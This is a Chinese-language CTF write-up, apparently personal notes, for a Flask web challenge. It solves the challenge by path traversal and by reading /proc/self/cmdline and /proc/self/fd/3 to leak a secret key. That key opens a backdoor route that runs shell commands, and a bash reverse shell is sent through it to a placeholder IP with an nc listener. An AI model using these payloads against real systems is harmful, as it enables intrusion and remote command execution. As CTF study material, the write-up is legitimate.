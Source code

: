 ![[Pasted image 20230104083639.png|500]]

---
首页长这样

![[Pasted image 20230104083703.png]]

朴实无华.jpg

![[Pasted image 20230104083746.png]]

```php
/page?url=../flag
```
然后就拿到`flag`了

看`wp`还有个预期解

获取进程的`cmdline`
```php
/page?url=/proc/self/cmdline
```

```shell
python2 app.py
```

```php
/page?url=app.py
```

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

使用`open`打开了，但是没有`close`，可以使用文件描述符读取

默认创建了三个文件描述符，`stdin`、`stdout`和`stderr`

所以`secret.txt`的`fd`应该是`3`

```php
/page?url=/proc/self/fd/3
```

```
kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=
```

反弹`shell`
```php
no_one_know_the_manager?key=kE2V+hdkhIPOUAJKRtlII96sVqUxsIZiOhjWOqcRr24=&shell=bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/7777 0>&1"
```
查询参数要进行`url`编码
```shell
nc -lvp 7777
```

![[Pasted image 20230104094436.png|1000]]

```shell
cat /flag
```

```
flag{5dbf6e32-aa1e-4f39-b328-425144e25c25}
```

#Web #linux #proc #文件描述符 #反弹shell 